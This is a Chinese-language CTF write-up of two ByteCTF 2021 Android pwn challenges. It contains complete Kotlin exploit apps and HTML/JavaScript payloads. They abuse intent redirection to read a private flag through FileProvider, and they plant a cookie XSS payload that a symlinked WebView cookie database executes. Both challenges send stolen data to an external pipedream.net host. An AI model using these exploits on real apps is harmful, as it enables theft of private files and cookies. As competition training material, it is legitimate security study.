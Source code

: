 ```yaml
---
title: ByteCTF 2021
date: 2021-10-17 20:01:43
tags:
    - CTF
    - Android
categories:
    - CTF
---
```

Android Pwn 真好玩。

<!-- more -->

# Pwn
## babydroid
Flag 被写入应用私有的文件存储区，但是注意到提供了 `androidx.core.content.FileProvider`，可以实现文件读取。
```xml
<provider android:name="androidx.core.content.FileProvider" android:exported="false" android:authorities="androidx.core.content.FileProvider" android:grantUriPermissions="true">
    <meta-data android:name="android.support.FILE_PROVIDER_PATHS" android:resource="@xml/file_paths"/>
</provider>
```
默认情况下，不能从外面直接访问提供的文件，但是 Android 提供了在发送 `Intent` 的同时对里面包含的 URL 进行授权的[机制](https://developer.android.com/reference/androidx/core/content/FileProvider#Permissions)，同时发现 `Vulnerable` 会把包含在启动用的 `Intent` 中的内容以自己的身份发送出去，并且我们可以完全控制其中的内容，于是构造 URL 以获取读取权限。
```kotlin
package com.bytectf.pwnbabydroid

import android.content.ComponentName
import android.content.Intent
import android.net.Uri
import androidx.appcompat.app.AppCompatActivity
import android.os.Bundle
import android.util.Log
import androidx.core.content.FileProvider.getUriForFile
import com.github.kittinunf.fuel.httpGet
import java.io.File
import java.nio.charset.Charset

class MainActivity : AppCompatActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        if (intent.getBooleanExtra("test", false)) {
            val uri = intent.data!!
            Log.d("FLAG_URL", uri.toString())
            val input = contentResolver.openInputStream(uri)
            val flag = input?.readBytes()?.toString(Charset.defaultCharset())!!
            Log.d("FLAG", flag)
            "https://redacted.m.pipedream.net/".httpGet(
                parameters = listOf(
                    Pair(
                        "flag",
                        flag
                    )
                )
            ).responseString { request, response, result -> }
            return
        }


        val packedIntent = Intent(this, MainActivity::class.java).apply {
            putExtra("test", true)
            data =
                Uri.parse("content://androidx.core.content.FileProvider/root/data/data/com.bytectf.babydroid/files/flag")
            flags = Intent.FLAG_GRANT_READ_URI_PERMISSION
        }

        val i = Intent().apply {
            component = ComponentName("com.bytectf.babydroid", "com.bytectf.babydroid.Vulnerable")
            putExtra("intent", packedIntent)
        }
        startActivity(i)
    }
}
```

## easydroid
本题中，Flag 被写入 Webview 中位于 `tiktok.com` 的 Cookie 中。`MainActivity` 中对 URL 的验证存在问题，只需要域名中包含指定字符串即可，并且对 `intent:` 形式的[协议](https://developer.chrome.com/docs/multidevice/android/intents/)进行了特殊处理，从而可以启动任意活动并且传递参数。据此构建通用重定向页面。
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <script>
        var h = "intent://#Intent;component=com.bytectf.easydroid/com.bytectf.easydroid.TestActivity;S.url=";
        window.location.href = h + window.location.hash.substr(1) + ";end;";
    </script>
</body>
</html>
```

根据 Hint 以及 [Evernote: Universal-XSS, theft of all cookies from all sites, and more](https://blog.oversecured.com/Evernote-Universal-XSS-theft-of-all-cookies-from-all-sites-and-more/) 一文的解析，发现可以通过符号链接以及设置 Cookie 的方式使浏览器把存储 Cookie 的 SQLite 数据库作为 HTML 页面解析，从而执行其中的脚本，实现 XSS。首先需要在以下页面停留40秒左右，等待数据库写入存储：
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    Hello World
    <script>
        src = 'new Image().src = "https://redacted.m.pipedream.net/?evil=" + encodeURIComponent(document.getElementsByTagName("html")[0].innerHTML);';
        document.cookie = "x = '<img src=\"x\" onerror=\"eval(atob('" + btoa(src) + "'))\">'"
    </script>
</body>
</html>
```

然后再打开符号链接的文件，实现 XSS（会把整个数据库的内容传输给攻击者）：
```kotlin
package com.bytectf.pwneasydroid

import android.content.BroadcastReceiver
import android.content.Context
import android.content.Intent
import android.net.Uri
import androidx.appcompat.app.AppCompatActivity
import android.os.Bundle
import android.os.Handler

class MainActivity : AppCompatActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        launch("http://toutiao.com.192.168.2.224.traefik.me:8000/cookie.html")
        Handler().postDelayed({-> launch("file://" + symlink())}, 45000)
    }


    public fun launch(url: String) {
        val i = Intent().apply {
            setClassName("com.bytectf.easydroid", "com.bytectf.easydroid.MainActivity")
            data = Uri.parse("http://toutiao.com.192.168.2.224.traefik.me:8000/redir.html#$url")
            flags = Intent.FLAG_ACTIVITY_NEW_TASK or Intent.FLAG_ACTIVITY_CLEAR_TASK
        }
        startActivity(i)
    }

    fun symlink(): String {
        val root = applicationInfo.dataDir
        val symlink = "$root/symlink.html"
        val cookies = packageManager.getApplicationInfo("com.bytectf.easydroid", 0).dataDir + "/app_webview/Cookies"

        Runtime.getRuntime().exec("rm $symlink")
        Runtime.getRuntime().exec("ln -s $cookies $symlink")
        Runtime.getRuntime().exec("chmod -R 777 $root")

        return symlink
    }
}
```
